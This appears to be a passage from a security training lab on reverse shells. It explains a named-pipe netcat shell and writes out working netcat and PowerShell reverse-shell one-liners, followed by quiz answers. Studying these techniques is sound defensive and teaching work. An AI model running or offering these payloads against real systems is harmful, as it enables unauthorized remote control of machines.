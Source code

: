 The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at ```/tmp/f```. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into ```sh```, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
![](https://i.imgur.com/se5Fyn3.png)

A very similar command can be used to send a netcat reverse shell:
```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.
![](https://i.imgur.com/Xf0hA5p.png)

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient(' <ip> ', <port> );$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![](https://i.imgur.com/T6o7kOL.png)

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.
```
What command can be used to create a named pipe in Linux?
> mkfifo
```

```
Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.
> No answer needed
```
